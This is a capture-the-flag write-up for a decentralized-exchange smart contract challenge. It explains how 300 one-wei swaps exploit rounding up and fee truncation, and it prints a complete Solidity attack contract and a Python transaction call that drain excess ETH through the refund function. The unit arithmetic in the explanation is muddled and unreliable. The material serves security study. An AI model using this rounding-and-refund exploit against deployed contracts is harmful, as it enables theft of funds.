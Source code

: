 
## Challenge Overview

The HeliosDEX challenge features a decentralized exchange that allows swapping ETH for various tokens (EldorionFang, MalakarEssence, and HeliosLuminaShards) and provides a one-time refund mechanism to convert tokens back to ETH.

To solve the challenge, we need to increase our ETH balance to at least 20 ETH (as defined in the `isSolved()` function in the Setup contract).

## Vulnerability Analysis

After analyzing the contracts, the key vulnerabilities are:

**Missing Address Validation**: The `oneTimeRefund()` function only checks if the caller has already received a refund, but not if the tokens were actually purchased by that caller. Combined with the fact that you can use a contract as an intermediary, this allows bypassing the one-time refund limitation.

```C#
function oneTimeRefund(address item, uint256 amount) external heliosGuardedTrade {
    require(!hasRefunded[msg.sender], "HeliosDEX: refund already bestowed upon thee");
    // ...
}
```

**Small Value Transactions**: By sending extremely small amounts of ETH (1 wei) when calling `swapForHLS()`, we can maximize the rounding discrepancy in our favor.

Rounding Up: Using Math.Rounding.Up, even 1 wei of ETH converts to 1 HLS due to rounding.

Fee Truncation: For small amounts (1 HLS), the 0.25% fee (0.0025 HLS) truncates to 0, giving a full 1 HLS per 1 wei.


## Exploitation Strategy

The strategy exploits the rounding discrepancy between buying and selling HLS tokens:

1. Create an attack contract that serves as our intermediary
2. Call `swapForHLS()` multiple times with minimal ETH value (1 wei per call)
3. Due to rounding, we receive more HLS tokens than the exchange calculation would yield for the aggregated amount
4. Approve the DEX to spend our HLS tokens
5. Call `oneTimeRefund()` to convert all HLS tokens back to ETH
6. Because of the rounding differences, we receive more ETH than we initially paid

### Mathematical Explanation

When swapping 1 wei for HLS tokens:
- Exchange ratio: 10 (exchangeRatioHLS)
- After subtracting the 0.25% fee, we still receive a disproportionately large amount

``
netEth = (amount * 1e18 / exchangeRatioHLS) * (1 - 25 / 10000)
``

When choose `amount = 300 ` we have ETH balance over 20 ETH, so get flag:
``
netEth = (300 * 1e18 / 10) * (1 - 25 / 10000) = 29.925 ETH
``


## Implementation Details

Our exploit contract (`Attack.sol`):

```C#
contract Attack {
    IHeliosDEX public immutable dex;
    IHeliosLuminaShards public immutable hls;
    address payable private owner;
    
    constructor(address dexAddress, address hlsAddress) {
        dex = IHeliosDEX(dexAddress);
        hls = IHeliosLuminaShards(hlsAddress);
        owner = payable(msg.sender);
    }
    
    function attack(uint256 times) external payable {
        require(msg.value == times * 1 wei, "Incorrect ETH");
        
        // Split into small chunks
        for(uint i=0; i<times; i++) {
            dex.swapForHLS{value: 1 wei}();
        }
        
        uint balance = hls.balanceOf(address(this));
        hls.approve(address(dex), balance);
        dex.oneTimeRefund(address(hls), balance);
        owner.transfer(address(this).balance);
    }
    
    receive() external payable {}
}
```
The attack function in the final contract automatically transfers ETH back to the player after the refund, ensuring the player's balance increases

## Execution Steps

1. Deploy the Attack contract with the HeliosDEX and HLS token addresses
2. Call the `attack()` function with 300 as the parameter and 300 wei as the value
3. The contract:
   - Calls `swapForHLS()` 300 times with 1 wei each time
   - Approves the DEX to spend its HLS tokens
   - Calls `oneTimeRefund()` to convert all HLS tokens back to ETH
   - Transfers the resulting ETH back to us
4. The final script set a 10 million gas limit for the exploit transaction, ensuring all swaps and refunds could be processed in a single transaction.
```py
tx = attacker.functions.attack(300).build_transaction({
    'value': 300,  # 300 wei for 300 swaps
    'gas': 10000000,
    'gasPrice': w3.eth.gas_price
})
```
See full exploit in `exploit.py`

## Result
![image](https://github.com/user-attachments/assets/7f4659fd-2e3c-4dc9-96c0-64fc13475261)
